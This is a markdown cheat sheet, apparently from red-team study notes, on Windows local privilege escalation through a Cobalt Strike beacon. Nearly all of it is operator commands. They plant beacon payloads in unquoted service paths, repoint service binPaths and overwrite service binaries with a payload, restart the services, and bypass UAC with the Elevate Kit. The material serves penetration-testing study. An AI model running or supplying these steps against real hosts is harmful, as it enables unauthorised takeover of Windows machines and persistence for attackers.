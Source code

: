 # Host Privilege Escalation Notes

## Windows Services

Query services
```
sc query
Get-Service | f1
```

Things of interest
1. Binary Path
2. Startup Type
3. Service Status
4. Log on As
5. Dependants and Dependencies

## Unquoted Service Paths

Get all services and their path
```
run wmic service get name, pathname
```

Check the ACL's of those objects
```
powershell Get-Acl -Path "C:\path\to\service" | f1
```

Using SharpUp
```
execute-assembly C:\Tools\SharpUp\SharpUp\bin\Release\SharpUp.exe audit UnquotedServicePath
```

## Abusing

If you have services that are named like Service 1.exe and not quoted we can abuse this by placing a Service.exe beacon in this file path which allows us to abuse it. Could also be the file path name to like *C:\Here is\Service 1.exe* we can drop a *C:\Here.exe* if we have permissions to abuse.
```
cd C:\Program Files\Vulnerable Services
ls
upload C:\Payloads\tcp-local_x64.svc.exe
mv tcp-local_x64.svc.exe Service.exe
ls
run sc stop VulnService1
run sc start VulnService1
```


## Weak Service Permissions

Check for modifiable services
```
execute-assembly C:\Tools\SharpUp\SharpUp\bin\Release\SharpUp.exe audit ModifiableServices
```

Checking ACL of that service with [this](https://rohnspowershellblog.wordpress.com/2013/03/19/viewing-service-acls/)
```
powershell-import C:\Tools\Get-ServiceAcl.ps1
powershell Get-ServiceAcl -Name VulnService2 | select -expand Access
```

We want ChangeConfig to be able to change the binpath and Start and Stop privs to be able to abuse easily

validating the current path and changing it 
```
run sc qc VulnService2
mkdir C:\Temp
cd C:\Temp
upload C:\Payloads\tcp-local_x64.svc.exe
run sc config VulnService2 binPath= C:\Temp\tcp-local_x64.svc.exe
run sc qc VulnService2
run sc stop VulnService2
run sc start VulnService2
```


## Weak Service Binary Permissions

This time the binary itself is able to be overwritten, checking for it's permissions. Make sure to download to keep as backup just in case. Also turn off the service before doing this, otherwise you will get helpmessage 32
```
powershell Get-Acl -Path "C:\Program Files\Vulnerable Services\Service 3.exe" | f1
download Service 3.exe
copy "tcp-local_x64.svc.exe" "Service 3.exe"
run sc stop VulnService3
upload C:\Payload\Service 3.exe
run sc start VulnService3
```

## UAC Bypasses

Check for UAC, *medium mandatory* means UAC in this case
```
whoami /groups
```

beacon can get around this by using the [Elevate Kit](https://github.com/cobalt-strike/ElevateKit) which you should load into your Cobalt Strike for use
```
elevate uac-schtasks tcp-local
```
